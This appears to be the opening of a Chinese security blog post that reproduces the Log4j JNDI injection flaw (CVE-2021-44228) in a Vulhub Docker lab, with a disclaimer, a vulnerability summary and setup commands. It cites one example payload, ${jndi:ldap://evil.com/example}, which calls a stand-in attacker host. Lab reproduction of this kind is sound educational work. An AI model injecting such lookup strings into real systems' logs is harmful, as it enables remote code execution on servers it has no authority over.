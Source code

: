 [log4j-CVE-2021-44228-vulhub复现](https://cloud.tencent.com/developer/article/1922504)
====================================================================================

![](assets/0c870e49445e4c8d44037fad0063f140.jpeg)作者头像2021-12-21 16:11:10共 10418 字阅读需 42 分钟

> 乌鸦安全的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。

✎ 阅读须知

乌鸦安全的技术文章仅供参考，此文所提供的信息只为[网络安全](https://cloud.tencent.com/product/ns?from_column=20065&from=20065)人员对自己所负责的网站、[服务器](https://cloud.tencent.com/act/pro/promotion-cvm?from_column=20065&from=20065)等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。

乌鸦安全拥有对此文章的修改、删除和解释权限，如转载或传播此文章，需保证文章的完整性，未经授权，不得用于其他。

本文所提供的工具仅用于学习，禁止用于其他，请在24小时内删除工具文件！！！

01

**漏洞描述**

Apache Log4j 2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于${jndi:ldap://evil.com/example}的lookup用于进行JNDI注入，执行任意代码。

参考地址：

代码语言：javascript

复制

```
https://github.com/vulhub/vulhub
```

本次漏洞复现也是基于Vulhub

02

**漏洞环境搭建**

代码语言：javascript

复制

```
docker-compose up -d --build
```
